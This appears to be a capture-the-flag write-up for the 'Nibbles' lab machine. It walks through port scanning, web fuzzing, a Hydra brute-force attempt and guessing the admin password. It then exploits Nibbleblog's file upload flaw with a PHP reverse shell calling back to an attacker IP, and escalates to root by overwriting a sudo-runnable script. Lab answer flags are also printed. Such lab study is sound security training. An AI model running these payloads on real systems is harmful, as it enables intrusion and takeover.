







# Nibbles (Easy · Linux)

**Author:** Ph4n3s
**Date:** 2026-10-22
**IP:** 10.129.96.84
**Difficulty:** Easy / Linux

---

## 1. Enumeration

### 1.1 Ping

```
ping -c 1 10.129.96.84
```

```
64 bytes from 10.129.96.84: icmp_seq=1 ttl=63 time=49.5 ms
```

With TTL 63 we assume a Linux system.

### 1.2 Open ports

```
nmap -p- --open -T4 --min-rate 5000 10.129.96.84
```

```
22/tcp open  ssh
80/tcp open  http
```

Two ports: SSH and HTTP.

### 1.3 Technology enumeration

```
nmap -p 80,22 -sVC -T4 --min-rate 5000 10.129.96.84
```

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Apache 2.4.18 on Ubuntu. With `curl -I -v http://10.129.96.84:80/` we only confirm the same `Server: Apache/2.4.18 (Ubuntu)` header, with no further clues.

### 1.4 nmap vuln script

```
nmap -p 80,22 --script vuln -T4 --min-rate 5000 10.129.96.84
```

```
80/tcp open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
```

Nothing usable. We move on to fuzzing the web.

---

## 2. Fuzzing

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.96.84/FUZZ -mc 200,204,301,302,307,401,403 -e .php,.html,.txt -t 100 -ac -c
```

```
index.html              [Status: 200, Size: 93, Words: 8, Lines: 17, Duration: 53ms]
```



`index.html` only shows a "Hello world!":


However, inspecting the source code reveals a telling comment:

```html
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

The developer themselves leaves a hint about the directory of the **Nibbleblog** CMS. We confirm it runs PHP and fuzz that directory.

### 2.1 Fuzzing /nibbleblog/

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.96.84/nibbleblog/FUZZ -mc 200,204,301,302,307,401,403 -e .php,.html,.txt -t 100 -ac -c
```

```
LICENSE.txt             [Status: 200, Size: 35148, Words: 5836, Lines: 676, Duration: 59ms]
README                  [Status: 200, Size: 4628, Words: 589, Lines: 64, Duration: 57ms]
admin                   [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 51ms]
admin.php               [Status: 200, Size: 1401, Words: 79, Lines: 27, Duration: 77ms]
content                 [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 55ms]
feed.php                [Status: 200, Size: 302, Words: 8, Lines: 8, Duration: 64ms]
index.php               [Status: 200, Size: 2987, Words: 116, Lines: 61, Duration: 67ms]
install.php             [Status: 200, Size: 78, Words: 11, Lines: 1, Duration: 58ms]
languages               [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 56ms]
plugins                 [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 55ms]
sitemap.php             [Status: 200, Size: 402, Words: 33, Lines: 11, Duration: 63ms]
themes                  [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 63ms]
update.php              [Status: 200, Size: 1622, Words: 103, Lines: 88, Duration: 65ms]
```

`admin.php` is a login panel:



---

## 3. Brute-force attempt

We try brute force with Hydra and the `rockyou.txt` wordlist:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.96.84 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect"
```

The results are false positives: Nibbleblog has anti-brute-force protection that blocks the IP after several failed attempts.



---

## 4. Manual review of the web

Nibbleblog stores its user configuration in an XML accessible without authentication:

```
http://10.129.96.84/nibbleblog/content/private/users.xml
```



It confirms the `admin` user and the reason for the block (5 failed attempts = blacklist). There are no hashes exposed in any accessible directory, so we try the machine's own name (`nibbles`) as the password — and it is the correct password for the admin panel.

The Nibbleblog version is **4.0.3**, vulnerable to **CVE-2015-6967** (arbitrary file upload → RCE) through the "My Image" plugin.

---

## 5. Exploitation

Logged in as `admin`, the **My Image** plugin (`Plugins → My image`) allows uploading any file without validating its extension.

**Step 1 — Create the PHP payload:**

```bash
echo '<?php exec("/bin/bash -c '"'"'bash -i >& /dev/tcp/10.10.16.120/4444 0>&1'"'"'"); ?>' > shell.php
```

**Step 2 — Upload `shell.php`** from the plugin's form and save the changes:



**Step 3 — Open a listener** (`nc -lvnp 4444`) and trigger the uploaded file:

```
curl http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php
```

**Step 4 — Receive the shell:**



We get command execution as the user `nibbler`.

---

## 6. Post-exploitation

We navigate to `/home/nibbler/user.txt`:

```
USER FLAG -> 08cb3bb1439ad8e3b5f04ab3b1fb944d
```

In `/home/nibbler/personal/stuff/` there is a script with world-open permissions:

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```



In addition, `nibbler` can run that specific script as root without a password (a specific entry in `sudoers`). Since it is editable by anyone, we overwrite its content with a shell:

```bash
echo '/bin/bash' > monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

Since `monitor.sh` is run by root via `sudo`, we inherit a shell with its privileges. We navigate to `/root/root.txt`:

```
ROOT FLAG -> d9521cd9b5bc0e62ba70208666214f66
```

---

## Quick summary

**What the machine was:** a personal blog running the **Nibbleblog 4.0.3** CMS, hidden behind a static page, vulnerable to arbitrary file upload (CVE-2015-6967) once inside the admin panel.

**Enumeration:** `nmap` → ports 22 and 80 → an empty `index.html`, but its source reveals `/nibbleblog/` → fuzzing discovers `admin.php`, `users.xml` and the rest of the CMS structure.

**Panel access:** Hydra brute force blocked by Nibbleblog's own anti-brute-force protection → `users.xml` confirms the `admin` user → the password turns out to be the machine's name (`nibbles`), a weak and predictable credential.

**Exploitation:** the Nibbleblog version is vulnerable to RCE via file upload → a `shell.php` is uploaded through the "My Image" plugin → triggered with a direct `curl` to its path → reverse shell as `nibbler`.

**Privilege escalation:** `monitor.sh` in `nibbler`'s home is editable by anyone and runnable as root via `sudo` without a password → overwrite it with `/bin/bash` → shell as root.

**Key concept learned:** two configuration mistakes, not just one code vulnerability: a trivial administrator password (the hostname) and a script runnable as root with write permissions open to any user. The "hard" part was finding the hidden CMS; the rest were chained bad configuration practices.

---

**Flags:**
- `nibbler/user.txt` → `08cb3bb1439ad8e3b5f04ab3b1fb944d`
- `root.txt` → `d9521cd9b5bc0e62ba70208666214f66`
